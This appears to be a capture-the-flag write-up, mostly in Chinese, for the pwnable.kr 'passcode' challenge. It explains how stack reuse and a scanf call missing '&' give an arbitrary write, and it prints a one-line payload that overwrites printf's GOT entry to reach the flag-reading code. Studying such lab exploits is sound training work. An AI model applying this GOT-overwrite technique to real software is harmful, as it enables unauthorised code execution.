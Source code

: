 ## TARGET
```
passcode - 10 pt [writeup] 

Mommy told me to make a passcode based login system.
My initial C code was compiled without any error!
Well, there was some compiler warning, but who cares about that?

ssh passcode@pwnable.kr -p2222 (pw:guest)
```
## WRITEUP
download:
```scp -P 2222 -p  passcode@pwnable.kr:/home/passcode/* ./```

漏洞信息：   
程序main函数中，welcome和login存在栈复用，welcome调用gets向ebp-0x70读入100个字符。    
login中scanf没有取地址，因此会把[ebp-10h]和[ebp-0xch]的内容当成要写入的地址。 

在welcome中，我们有一次布置数据的机会，可以造成信息泄漏、布置dirty data。  
在login中，我们可以两次任意地址写，每次写4byte。  
如果想进入system流程，需要修改[ebp-0x10]和[ebp-0xc]的内容。由于没有栈地址，在welcome中泄漏出数据之后就不能布置dirty data了。因此，考虑利用任意地址写来hijack GOT为.text中system的地址，首先需要在welcome布置[ebp-0x10]为printf GOT地址。  

scanf format %100s可以读取100 byte，正好0x60*"A"+PRINTF_GOT_ADDR也是100 byte。多的输入正好给了login中的scanf %d，也就是向GOT表中写入的值。

EXP:  
python -c "print 'A'*0x60 + '\x00\xa0\x04\x08' + '134514147'" | ./passcode

```
unsigned int welcome()
{
  char v1; // [esp+18h] [ebp-70h]
  unsigned int v2; // [esp+7Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  printf("enter you name : ");
  __isoc99_scanf("%100s", &v1);
  printf("Welcome %s!\n", &v1);
  return __readgsdword(0x14u) ^ v2;
}

int login()
{
  int v1; // [esp+18h] [ebp-10h]
  int v2; // [esp+1Ch] [ebp-Ch]

  printf("enter passcode1 : ");
  __isoc99_scanf("%d");
  fflush(stdin);
  printf("enter passcode2 : ");
  __isoc99_scanf("%d");
  puts("checking...");
  if ( v1 != 338150 || v2 != 13371337 )
  {
    puts("Login Failed!");
    exit(0);
  }
  puts("Login OK!");
  return system("/bin/cat flag");
}

.text:08048564 ; __unwind {
.text:08048564                 push    ebp
.text:08048565                 mov     ebp, esp
.text:08048567                 sub     esp, 28h
.text:0804856A                 mov     eax, offset format ; "enter passcode1 : "
.text:0804856F                 mov     [esp], eax      ; format
.text:08048572                 call    _printf
.text:08048577                 mov     eax, offset aD  ; "%d"
.text:0804857C                 mov     edx, [ebp+var_10]
.text:0804857F                 mov     [esp+4], edx
.text:08048583                 mov     [esp], eax
.text:08048586                 call    ___isoc99_scanf
.text:0804858B                 mov     eax, ds:stdin@@GLIBC_2_0
.text:08048590                 mov     [esp], eax      ; stream
.text:08048593                 call    _fflush
.text:08048598                 mov     eax, offset aEnterPasscode2 ; "enter passcode2 : "
.text:0804859D                 mov     [esp], eax      ; format
.text:080485A0                 call    _printf
.text:080485A5                 mov     eax, offset aD  ; "%d"
.text:080485AA                 mov     edx, [ebp+var_C]
.text:080485AD                 mov     [esp+4], edx
.text:080485B1                 mov     [esp], eax
.text:080485B4                 call    ___isoc99_scanf
```

## TIPS
scanf 会将format和输入的字符进行匹配，如果不匹配，格式化操作不会生效。例如：scanf("input%d",&a);输入为input123，123才会写入a中。

举例:地址不可写时赋值失败
```asm
 ► 0xf7e53bc7 <_IO_vfscanf+15271>    mov    dword ptr [edx], eax <0xf7e60cab>
   0xf7e53bc9 <_IO_vfscanf+15273>    jmp    _IO_vfscanf+4719 <0xf7e5128f>
    ↓
   0xf7e5128f <_IO_vfscanf+4719>     add    dword ptr [ebp - 0x588], 1
   0xf7e51296 <_IO_vfscanf+4726>     mov    dword ptr [ebp - 0x570], 0
   0xf7e512a0 <_IO_vfscanf+4736>     jmp    _IO_vfscanf+760 <0xf7e50318>
```
